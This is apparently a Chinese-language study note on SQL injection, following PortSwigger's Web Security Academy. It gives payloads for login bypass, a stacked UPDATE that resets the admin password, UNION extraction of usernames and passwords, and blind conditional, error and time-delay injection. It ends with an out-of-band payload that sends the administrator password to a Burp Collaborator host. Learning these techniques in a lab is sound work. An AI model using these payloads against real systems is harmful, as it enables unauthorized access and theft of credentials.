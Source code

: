 ```yaml
---
tags: [Web, 网络安全, 白帽子]
last_modified_time: 2022-05-23 18:31:35 +0800
---
```


本文是通过 [Learning path \| Web Security Academy - PortSwigger](https://portswigger.net/web-security/learning-path) 学习web安全的笔记。该站点是 BurpSuite 的官方网站，其创建者是《黑客攻防技术宝典——Web实战篇》（英文名是 The Web Application Hacker's Handbook）的作者。另外 Kali 官网也有相关的学习资源，不过大多收费（主要是指 [Infosec Training & Penetration Testing \| Offensive Security](https://www.offensive-security.com/)）

<p id="markdown-toc"></p>
<!-- vim-markdown-toc GFM -->

* [SQL 注入](#sql-注入)
    * [获取隐藏数据](#获取隐藏数据)
        * [`' or 1=1-- `](#-or-11---)
    * [推翻程序逻辑](#推翻程序逻辑)
        * [`administrator'--`](#administrator--)
    * [从其他表里获取数据](#从其他表里获取数据)
        * [UNION攻击](#union攻击)
            * [判断有几列](#判断有几列)
                * [`order by`](#order-by)
                * [`union select null,null,...`](#union-select-nullnull)
            * [查找有用数据类型的列](#查找有用数据类型的列)
            * [获取数据](#获取数据)
            * [在一列里获取多个值](#在一列里获取多个值)
    * [获取数据库信息](#获取数据库信息)
        * [查询数据库类型和版本](#查询数据库类型和版本)
        * [列出数据库的内容](#列出数据库的内容)
    * [盲SQL注入](#盲sql注入)
        * [通过触发条件响应](#通过触发条件响应)
        * [通过触发 SQL 错误来诱导条件响应](#通过触发-sql-错误来诱导条件响应)
        * [通过触发时间延迟](#通过触发时间延迟)
        * [通过带外（OAST）技术](#通过带外oast技术)

<!-- vim-markdown-toc -->

## SQL 注入
学习链接：
* [What is SQL Injection? Tutorial & Examples \| Web Security Academy](https://portswigger.net/web-security/sql-injection)

参考手册：
* [SQL injection cheat sheet \| Web Security Academy](https://portswigger.net/web-security/sql-injection/cheat-sheet)

常见例子：
* 获取隐藏数据
* 推翻程序逻辑
* 从其他表里获取数据
* 获取数据库信息
* 盲SQL注入

### 获取隐藏数据
#### `' or 1=1-- `
```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

技巧总结：
* 由于所有类型的数据库均可使用`-- `（注意有个空格）来注释，故采用该方式注释比较通用
* 由于`1=1`可能被安全过滤了，所以可以尝试`'a'='a'`等方案

### 推翻程序逻辑
#### `administrator'--`
```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = ''
```

技巧总结：
* 有的程序登录时先查用户对应的密码，再去比较密码，即类似下面的逻辑：
  ```php
  ...
  $rows=($conn->query("SELECT username,password FROM user_info WHERE username = '$username'"));
  $row= $rows->fetch();
  if($row['username']==$username &&$row['password']==$password){
  ...
  ```
  这时可以注入 UPDATE 语句来成功登录：
  ```sql
  admin'; update user_info set password = 'admin' where username = 'admin'-- 
  ```
  
### 从其他表里获取数据
#### UNION攻击
##### 判断有几列
###### `order by`
```sql
select xxx,xxx from xxx order by 3
select xxx,xxx from xxx order by 2
...
```

###### `union select null,null,...`
```sql
select xxx,xxx from xxx where xxx='xxx' union select null,null,null
select xxx,xxx from xxx where xxx='xxx' union select null,null
...
```


##### 查找有用数据类型的列
```sql
select xxx,xxx from xxx where xxx='xxx' UNION SELECT 'a',NULL--
select xxx,xxx from xxx where xxx='xxx' UNION SELECT NULL,'a'--
```

##### 获取数据
```sql
select xxx,xxx from xxx where xxx='xxx' UNION SELECT username, password FROM users--
```

##### 在一列里获取多个值
```sql
select xxx from xxx where xxx='xxx' UNION SELECT username || '~' || password FROM users--
```

### 获取数据库信息
#### 查询数据库类型和版本

| Database type    | Query                     |
|------------------|---------------------------|
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

#### 列出数据库的内容

| Database type | Query                                                                                                                    |
|---------------|--------------------------------------------------------------------------------------------------------------------------|
| Oracle        | `SELECT * FROM all_tables; SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                           |
| non-Oracle    | `SELECT * FROM information_schema.tables; SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

### 盲SQL注入
#### 通过触发条件响应
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'
```

#### 通过触发 SQL 错误来诱导条件响应
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a'
```

#### 通过触发时间延迟
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:10'--
```

#### 通过带外（OAST）技术
```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```


